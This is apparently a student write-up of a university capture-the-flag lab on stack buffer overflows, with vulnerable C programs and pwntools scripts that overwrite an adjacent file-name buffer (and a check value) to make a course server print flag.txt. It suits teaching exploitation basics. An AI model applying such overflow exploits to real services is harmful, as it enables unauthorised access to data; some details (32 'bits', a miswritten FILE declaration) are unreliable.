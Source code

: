 # **CTF Week #5**

**Objective:** Explore stack operation and exploitation of stack buffer-overflows.

**Targeted addresses**: http://ctf-fsi.fe.up.pt in port 4003 and port 4000

## Challenge 1

In this first challenge, using a ZIP file provided by the CTF platform, we need to read the flag.txt file where the flag for this challenge is located.
The service was hosted on port `4003`.

**Program main.c**

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%40s", &buffer);

    printf("Echo %s\n", buffer);

    printf("I like what you got!\n");
    
    FILE *fd = fopen(meme_file,"r");
    
    while(1){
        if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
            printf("%s", buffer);
        } else {
            break;
        }
    }


    fflush(stdout);
    
    return 0;
}
```

Looking at the source code (main.c) we are asked 3 questions:

1. Is there a file that is opened and read by the program?
* Yes, the program attempts to open and read a file named `mem.txt`.

2. Is there any way to control which file is opened?
* The file to be opened and read is hard-coded as `mem.txt` in the `meme_file` array. Therefore, it always attempts to open `mem.txt`. The only way to change that is changing the code itself.

3. Is there any buffer-overflow? If so, what can you do?
* Yes, there is a buffer overflow vulnerability in the code. The `buffer` array is defined with a size of 32 characters, and the code uses the `scanf` function to read up to 40 characters into this buffer. This means that if more than 32 characters are entered by the user, it can overwrite the adjacent memory, causing undefined behavior and potentially leading to a security issue. To fix this buffer overflow issue, you should ensure that `scanf` reads at most 32 characters to avoid overwriting the buffer. (`scanf("%31s", buffer);`)

**Program exploit-example.py**

```python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"Tentar nao custa")
r.interactive()
```

For this first challenge, we only had to alter the line 12, replacing the sent string by `sendline` to `"xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxflag.txt"`, where `x` was any random character and repeated 32 times because that was the number of bits in the `buffer` array.

```python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag.txt")
r.interactive()
```

By executing this script, we were able to successfully overwrite through buffer overflow the contents of `meme_file` to the name of the file where the flag was contained in. The program then opened `flag.txt`, read its contents, and printed the flag. 

![screenshot1](screenshots/CTFWEEK5/screenshot1.png)

## Challenge 2

In this second challenge, using a ZIP file provided by the CTF platform, we need to read the flag.txt file where the flag for this challenge is located. It was pretty much the same goal as in the previous challenge, where we had to make use of a buffer overflow vulnerability in order to obtain the flag stored in `flag.txt`. The service was now hosted on port `4000`.

Like in the first challenge, first order of action was to check what sort of protections the program had been compiled with by using the `$ checksec program` command. The output was the same as in the first program.

Next step was to look in the source code, and there we noticed the differences. The code looked very similar to the first program's.

**Program main.c**

``` c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char val[4] = "\xef\xbe\xad\xde";
    char meme_file[9] = "mem.txt\0\0";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%45s", &buffer);
    if((long)val == 0xfefc2324) {
        printf("I like what you got!\n");

        FILE fd = fopen(meme_file,"r");

        while(1){
            if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    } else {
        printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file,(long*)val);
    }

    fflush(stdout);

    return 0;
}
```

Looking at the source code (main.c) we are asked 3 questions:

1. What changes have been made?
* The changes made are: An additional `val` array of 4 bytes is added with the value "\xef\xbe\xad\xde" and now the code checks if the value of `(long)val` is equal to `0xfefc2324` before opening and reading the file.

2. Do they fully mitigate the problem?
* No, they don't fully mitigate the problem.

3. Is it possible to overcome the mitigation using a similar technique to the one used previously?
* Yes, we need to try to overwrite the values in the `val` array so that we can exploit the buffer overflow vulnerability to alter the values of `val` and `meme_file`, causing the program to open the `flag.txt` file and output the flag.

Using the same python script that we used in the challenge prior, we made the necessary alterations in order to successfully exploit the program.

```python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x24\x23\xfc\xfeflag.txt")
r.interactive()
```

We made use of the `\x` notation to write characters using their hexadecimal value. This allowed us to write the necessary characters to overwrite the values in the `val` array inside the `main.c` file. They were also written in reverse to match the proper order. After these characters, we wrote the name of the flag file just the way we had done before. Executing this script, we succesfully exploited the buffer overflow vulnerability to alter the values of `val` and `meme_file`, causing the program to open the `flag.txt` file and output the flag.

![screenshot2](screenshots/CTFWEEK5/screenshot2.png)